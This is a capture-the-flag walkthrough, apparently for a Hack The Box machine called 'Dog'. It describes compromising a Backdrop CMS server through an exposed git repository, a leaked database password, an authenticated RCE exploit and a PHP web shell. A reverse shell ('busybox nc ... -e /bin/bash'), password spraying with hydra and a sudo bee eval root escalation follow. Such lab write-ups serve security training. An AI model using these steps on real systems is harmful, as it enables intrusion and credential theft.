- Machine Name: Dog
- OS Type: Linux
- Difficulty: Linux

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Tue May  6 11:09:30 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.58
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 10.10.11.58
Host is up, received echo-reply ttl 63 (0.28s latency).
Scanned at 2025-05-06 11:09:31 IST for 104s
Not shown: 64980 closed tcp ports (reset), 553 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDEJsqBRTZaxqvLcuvWuqOclXU1uxwUJv98W1TfLTgTYqIBzWAqQR7Y6fXBOUS6FQ9xctARWGM3w3AeDw+MW0j+iH83gc9J4mTFTBP8bXMgRqS2MtoeNgKWozPoy6wQjuRSUammW772o8rsU2lFPq3fJCoPgiC7dR4qmrWvgp5TV8GuExl7WugH6/cTGrjoqezALwRlKsDgmAl6TkAaWbCC1rQ244m58ymadXaAx5I5NuvCxbVtw32/eEuyqu+bnW8V2SdTTtLCNOe1Tq0XJz3mG9rw8oFH+Mqr142h81jKzyPO/YrbqZi2GvOGF+PNxMg+4kWLQ559we+7mLIT7ms0esal5O6GqIVPax0K21+GblcyRBCCNkawzQCObo5rdvtELh0CPRkBkbOPo4CfXwd/DxMnijXzhR/lCLlb2bqYUMDxkfeMnmk8HRF+hbVQefbRC/+vWf61o2l0IFEr1IJo3BDtJy5m2IcWCeFX3ufk5Fme8LTzAsk6G9hROXnBZg8=
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM/NEdzq1MMEw7EsZsxWuDa+kSb+OmiGvYnPofRWZOOMhFgsGIWfg8KS4KiEUB2IjTtRovlVVot709BrZnCvU8Y=
|   256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPMpkoATGAIWQVbEl67rFecNZySrzt944Y/hWAyq4dPc
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 3836E83A3E835A26D789DDA9E78C5510
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
| http-robots.txt: 22 disallowed entries 
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
| /user/password /user/login /user/logout /?q=admin /?q=comment/reply 
| /?q=filter/tips /?q=node/add /?q=search /?q=user/password 
|_/?q=user/register /?q=user/login /?q=user/logout
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May  6 11:11:15 2025 -- 1 IP address (1 host up) scanned in 104.91 seconds
	
```

## Enumeration

### Port 80/HTTP

http service is running on port 80, let’s visit the website in browser



in the footer section i found CMS name - backdrop cms



we found authenticated RCE vulnerability https://www.exploit-db.com/exploits/52021but we need valid creds to exploit this vulnerability 

as nmap scan shows that the .git repository is exposed we’ll use git-dumper to dump the git repo into our local machine

```bash
git-dumper http://10.10.11.58/.git/ git
```

in settings.php i found the database credentials



but i tried with root user but it says unrecongnized user

if we carefully look at all blogs we can see that there’s username in all blogs, all are anonymous except one



let’s try this username



great now we know the valid username but the password for this user is not working

### This was pure guess!!

```bash
grep -iR "@dog.htb"
```



we found the another username tiffiny



run the exploit

```bash
python3 52021.py http://10.10.11.58
```



to install the shell go to **Functionality > Install New Module** and then click **Manual Installation**



upload the shell.zip file



but upload was not successful as it requires the tar.gz file so open file manager 



right click on folder and then Create archive it will create a tar.gz file



shell available on → http://10.10.11.58/modules/shell/shell.php



to get reverse shell i’ll start netcat listener on port 443 and use `busybox nc 10.10.14.17 443 -e /bin/bash` command



starting enumeration on the system i found 2 user’s home directory



checking open ports i found mysql is running let’s connect to mysql and look for any creds for these accounts

```bash
	ss -tunlp
```



as we already got the database creds from settings.php in git-dump directory

```bash
mysql -u root -pBackDropJ2024DS2024
```



list databases and select backdrop to run queries on

```bash
show databases;
```



then run `show tables;` to list tables, found uses table

```bash
select name,pass from users;
```



none of these hash can be cracked, let’s se SQL database password → BackDropJ2024DS2024

```bash
hydra -L users.txt -p 'BackDropJ2024DS2024' ssh://10.10.11.58
```



nice let’s ssh as johncusack 

```bash
ssh johncusak@10.10.11.58
```



i’ll check if johncusack has permissions to run any command as sudo

```bash
sudo -l
```



i ran normally `/usr/local/bin/bee` 



i found interesting eval function which run php code

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"
```

